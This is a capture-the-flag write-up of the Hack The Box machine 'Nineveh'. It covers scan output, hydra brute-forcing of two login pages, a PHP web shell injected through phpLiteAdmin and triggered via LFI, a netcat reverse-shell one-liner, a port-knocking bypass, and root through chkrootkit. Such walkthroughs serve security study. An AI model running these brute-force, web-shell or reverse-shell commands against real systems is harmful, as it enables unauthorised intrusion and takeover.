 ```yaml
---
title:     "Hack The Box - Nineveh"
tags: [linux,medium,knockd,lfi,php,cron]
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/1.png)

We are going to pwn Nineveh from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/54>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results

```
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/2.png)

Lets start our Gobuster and see whats in the webpage.


## GoBuster Results

> http://nineveh.htb/

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.43
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/01/23 20:31:19 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/info.php (Status: 200)
/server-status (Status: 403)
/department (Status: 301)
===============================================================
2020/01/23 20:33:44 Finished
===============================================================
```

While looking at the webpages , found a login page in ```/department/login.php```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/3.png)

So I tried admin:admin I get invalid password so there must be admin user , lets try bruteforce using ``hydra``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/4.png)

Before that we need to capture the login intercept in burp to see how username and password are represented!

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/5.png)

Now start ``hydra``

``` hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 -V -f http-post-form '/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:invalid password' ```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/6.png)


```
-f / -F   exit when a login/pass pair is found (-M: -f per host, -F global)
-v / -V / -d  verbose mode / show login+pass for each attempt / debug mode 
```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/7.png)<br/>
We got the creds ```admin:1q2w3e4r5t```

Lets try login<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/8.png)

While checking the ``Notes`` tab it show us some message, I have no idea what it is so lets enumerate more!! And It looks like LFI on the URL.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/9.png)

So we know there is a ``HTTPS Port (443)`` is open so lets see whats there

### Dirsearch Results

>https://nineveh.htb/

```
 _|. _ _  _  _  _ _|_    v0.3.9
(_||| _) (/_(_|| (_| )

Extensions: html, php, txt | HTTP method: get | Threads: 10 | Wordlist size: 4614

Error Log: /root/hacking-tools/dirsearch/logs/errors-20-01-24_19-49-47.log

Target: https://10.10.10.43/

[19:49:49] Starting: 
[19:49:50] 200 -   49B  - /
[19:49:51] 403 -  291B  - /.hta
[19:50:27] 301 -  309B  - /db  ->  https://10.10.10.43/db/
[19:50:52] 200 -   49B  - /index.html
[19:51:41] 403 -  300B  - /server-status
```
There is a login page on ``/db``
Found ``phpLiteAdmin v1.9`` , as usual lets search for exploits

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/10.png)

There is an Remote PHP Code Injection
>https://www.exploit-db.com/exploits/24044

For that we need to login first , I tried with ``admin`` ( Which is default creds of phpLiteAdmin) But it doesn't worked!!
So Lets bruteforce again using ``hydra``
Same as before Intercept the login using burp.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/11.png)

Since the login page doesn't have any username so we dont need to worry about ``user``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/12-1.png)<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/12.png)<br/>
So the password is ``password123``

And Im in
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/13.png)

According to the exploit we need to first create a database with the extension of ``.php`` so I created ``ninevehNotes.php``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/14.png)

From there we need to create a table where we need to inject our payload.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/15.png)
``` <?php echo system($_REQUEST["cmd"]); ?>  ```

Once its created and we already know there is a LFI so I tried to execute there.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/16.png)<br/>
It Worked and Why I named it as ``ninevehNotes.php`` is because we know there is a file called ``ninevehNotes.txt``.

Now Its time to get reverse shell, I send it to burp and used reverse shell code.

``` rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f ```<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/17.png)

And I can't read user flag.

While Checking the ``/var/www/ssl`` directory found something called ``secure_notes``
So Lets have a look on it.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/18.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/19.png)

I downloaded it to my machine 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/20.png)

I did ``strings`` and found private key<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/21.png)

We already know ``ssh`` port is filtered it may be because of  ``knockd service``

> Once knockd is installed and running, you modify your firewall rules (e.g. iptables) to drop all incoming traffic to port 22. To the outside world, it's exactly as if you are not running SSH at all.


> Reference : https://www.endpoint.com/blog/2009/11/16/port-knocking-with-knockd

There is a way to bypass it.

> Port Knocking works by opening ports on a firewall by generating a connection attempt on a set of prespecified closed ports. Once a correct sequence of connection attempts is received, the firewall will open the port that was previously closed.

So we need the sequence to open the port.

>https://blog.rapid7.com/2017/10/04/how-to-secure-ssh-server-using-port-knocking-on-ubuntu-linux/

From the blog I came to know we can see the sequence in ``/etc/knockd.conf``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/22.png)

Yes I got the sequence , Now its time to open.

> https://www.digitalocean.com/community/tutorials/how-to-use-port-knocking-to-hide-your-ssh-daemon-from-attackers-on-ubuntu

``` for x in 571 290 911; do nmap -Pn --max-retries 0 -p $x 10.10.10.43; done ```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/23.png)

Now we can use the private key to login<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/24.png)

## Privilege Escalation

I uploaded my Linux Enumeration Script and nothing useful , So I tried ``pspy``

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

Looks like ``chrkootkit`` running 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/25.png)

> chkrootkit is a common Unix-based program intended to help system administrators check their system for known rootkits.

I searched in Searchsploit and found
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/26.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/27.png)

I looks like easy , I created a file called Update in ``/tmp`` and started my listener.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-nineveh/28.png)

Got Root!!



